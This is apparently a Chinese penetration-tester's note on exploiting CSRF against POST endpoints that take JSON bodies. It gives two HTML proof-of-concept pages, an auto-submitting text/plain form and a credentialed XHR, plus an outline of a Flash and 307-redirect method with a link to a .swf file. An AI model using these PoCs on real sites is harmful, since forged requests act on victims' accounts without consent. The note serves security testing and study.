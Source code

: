 ## JSON格式下的CSRF漏洞利用
### 介绍
GET型的CSRF一般比较简单，这里介绍POST型的CSRF漏洞的POC构造。</br>
但是在POST类型的接口或者URL中，会出现一种JSON格式的入参，构造POC有一些注意点，这里主要对此做一些记录。</br>

### 漏洞利用 
#### （一）常规POC
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/1.png></br>
首先使用常规POC，可使用BurpSuite的“Engagement Tools-Generate CSRF PoC”功能生成，如下：</br>

```html
<html>
<body>
	<form name="zzz" action="https://aaa.com" method="POST" enctype="text/plain">
		<input type="hidden" name='json入参' value='json入参产生“=”，此处设法闭合'/>
	</form>
	
	<script type="text/javascript">
		document.zzz.submit();
	</script>
</body>
</html>
```
使用上述常规POC会发现，响应报415，“Unsupported Media Type”，意为不支持的媒体类型;</br>
这是由于HTML文件中“enctype="text/plain"”造成的。</br>
抓包可以看到JSON入参后面跟了一个“=”符号。</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/2.png></br>
这种情况下，这种情况下服务端的JSON解析器可能会拒绝这段JSON，因为它不符合JSON的数据格式。 这时候我们可以给value赋值从而对=后的数据进行补全，使其构造成一个完整的json格式，可以避免解析器报错。具体的构造由name和value两个入参来进行，将"="封进JSON的入参中去，效果如下：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/4.png></br>

#### （二）通过XHR提交
上述（一）最后如果还是响应415状态码，那么可能就是服务端校验了Content-Type类型，该请求字段只能为application/json。如此，可通过XHR提交入参，如下所述。</br>
在通过HTML form提交生成的POST请求中，请求头的Content-Type由form元素上的enctype属性指定;现在enctype只有如下三种属性值：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/3.png></br>
其中text/plain可以满足JSON入参类型，但是其在用户请求时，相应请求体字段自动转换为了application/x-www-form-urlencoded。如下：</br>
<img src=https://github.com/n4ttt/Sec-Note/blob/main/Image/Vulnerabilities/csrf/5.png></br>
当跨域影响用户数据HTTP请求(如用XMLHttpRequest发送post)时，浏览器会发送预检请求(OPTIONS请求)给服务端征求支持的请求方法，然后根据服务端响应允许才发送真正的请求。 然而如果服务端对Content-Type进行校验，则不会响应这个OPTIONS请求，从而利用失败。</br>

所以在此场景下，这一思路是行不通的。但是更多的情况下服务端可能不会校验Content-Type，或者不会严格校验Content-Type是否为application/json，所以很多情况下这是可用的。</br>
新的POC如下：</br>
```html
<html>
<body>
	<script>
		function submitRequest(){
			var xhr = new XMLHttpRequest();
			xhr.open("POST","https://aaa.com",true);
			xhr.setRequestHeader("Accept","*/*");
			xhr.setRequestHeader("Accept-Language","zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
			xhr.setRequestHeader("Content-Type","application/json");
			xhr.withCredentials = true;
			xhr.send(stringify(json入参));
		}
	</script>

	<form action="#">
		<input type="button" value="Submit Request" onclick="submitRequest();"/>
	</form>
</body>
</html>
```

#### （三）借助flash，利用307跳转实现CSRF
1.制作一个Flash文件</br>
2.制作一个跨域XML文件</br>
3.制作一个具有307状态码的php文件</br>
已经有大牛造好轮子了，参考：https://www.jianshu.com/p/d063a222f5a5</br>
其中的.swf文件可使用：(test.swf)[https://github.com/n4ttt/Sec-Note/blob/main/Vulnerabilities/file/test.swf]
